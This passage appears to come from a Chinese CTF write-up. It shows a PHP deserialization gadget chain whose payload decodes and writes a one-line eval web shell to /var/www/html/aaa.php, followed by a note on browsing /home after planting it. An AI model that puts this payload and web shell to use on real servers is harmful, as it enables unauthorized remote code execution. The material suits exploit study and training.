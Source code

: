 ```
    public $str1;
    public $str2;


    public function__toString()
    {
            $this->str1->get_flag();
            return"1";
    }
}
class toget
{       
    public $todo = "system('echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > /var/www/html/aaa.php');";
    public functionget_flag()
    {
        echo"yes";
            eval($this->todo); 
    }
}

$a = new allstart();
$a->var1 = new func1();
$a->var1->var1 = new func2();
$a->var1->var1->var1 = new func3();
$a->var1->var1->var1->var1 = new func4();
$a->var1->var1->var1->var1->str1 = new toget();

echo urlencode(serialize($a));
```

写马进去后，查看 /home目录，发现 gitlab 文件夹可访问

![image-20250319144039992](./img/image-20250319144039992.png)